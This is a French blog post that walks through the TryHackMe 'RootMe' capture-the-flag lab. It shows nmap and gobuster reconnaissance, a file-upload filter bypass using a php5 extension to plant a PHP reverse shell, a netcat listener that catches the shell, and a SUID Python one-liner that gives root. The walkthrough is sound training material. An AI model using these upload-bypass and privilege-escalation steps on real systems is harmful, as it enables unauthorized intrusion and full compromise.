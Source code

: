 ```yaml
---
title: RootMe
tags: [TryHackMe, Facile, Linux, Apache]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/rrootme>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur Apache](#analyse-du-serveur-apache)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -T4 -A rootme.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 14:12 CEST
Nmap scan report for rootme.thm (10.10.156.223)
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/12%OT=22%CT=1%CU=42224%PV=Y%DS=2%DC=T%G=Y%TM=670
OS:A67BC%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%T
OS:I=Z%CI=Z%II=I%TS=D)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=
OS:M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4
OS:B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   31.33 ms 10.9.0.1
2   31.84 ms rootme.thm (10.10.156.223)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.37 seconds
```

Le scan {% include dictionary.html word="NMAP" %} met en lumière la présence de 2 ports ouverts : un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur {% include dictionary.html word="HTTP" %} Apache en version 2.4.29 sur le port 80.

## Analyse du serveur Apache

```bash
gobuster dir -u http://rootme.thm -w /usr/share/wordlists/dirb/common.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
[...expurgé pour brièveté...]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/]
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

L'outil {% include dictionary.html word="gobuster" %} nous permet d'identifier une page *panel* et une page *uploads*.

Pour l'instant, la page *uploads* est vide, et la page *panel* nous permet de téléverser des fichiers.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_panel.png" caption="Possibilité d'uploader des fichiers" %}

Nous tentons de téléverser une page {% include dictionary.html word="PHP" %} permettant d'obtenir un [*{% include dictionary.html word="reverse-shell" %}*](https://github.com/pentestmonkey/php-reverse-shell), mais sans succès : Il y a un filtrage sur le type de fichiers autorisés.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_interdit.png" caption="Upload de fichiers PHP interdit" %}

Nous utilisons l'outil d'exploitation web **Burp Suite** afin de trouver un contournement possible à la limitation, et nous parvenons à uploader le *{% include dictionary.html word="reverse-shell" %}* en ajoutant un chiffre à la fin de l'extension, indiquant la version de *{% include dictionary.html word="PHP" %}* à utiliser.

Le *{% include dictionary.html word="reverse-shell" %}* proposé par **pentestmonkey** nécessitant une version supérieure à 4, et la version actuelle étant la 8, nous nous sommes contenté de tester les valeurs de 4 à 8.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_intruder.png" caption="Upload de plusieurs versions php avec succès" %}

Nous avons à présent téléverser plusieurs versions de notre *{% include dictionary.html word="reverse-shell" %}*, il ne nous reste plus qu'à préparer un port en écoute avec {% include dictionary.html word="Netcat" %}, puis à nous rendre à la page *uploads* pour vérifier quelle(s) version(s) fonctionne(nt).

La version `php5` nous permet d'obtenir un shell fonctionnel.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.73] from (UNKNOWN) [10.10.117.180] 39092
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:17:38 up 9 min,  0 users,  load average: 0.00, 0.23, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Nous commençons par améliorer notre *reverse-shell* avec la commande suivante :

{%- gist ab3c791e25baa7b437d0324f6d3195af -%}

Puis nous recherchons le flag utilisateur

```bash
find / -iname user.txt -type f 2>/dev/null
/var/www/user.txt

cat /var/www/user.txt
THM{y[...expurgé...]l}
```

## Élévation de privilèges

Cette épreuve est guidée, et nous sommes invités à trouver un fichier avec des permissions SUID. Ce type de permissions permet à n'importe quel utilisateur d'utiliser un programme avec les privilèges du propriétaire.

{%- gist fb795c271652c9004ad77f11be2b66db -%}

Nous utiliserons la commande ciblant les SUID (`-perm /4000`)

```bash
find / -user root -perm /4000 -exec ls -ldbh {} \; 2>/dev/null
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 43K Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 27K Jan  8  2020 /bin/umount
```

Il est assez peu courant d'avoir des privilèges aussi élevé sur le binaire **Python**.

Le site [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) nous permet de trouver la commande nécessaire pour élever nos privilèges et devenir root.

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'

bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4#
```

Nous avons à présent les droits root sur la machine, nous pouvons terminer par trouver le flag **root.txt**

```bash
cat /root/root.txt
THM{p[...expurgé...]n}
```
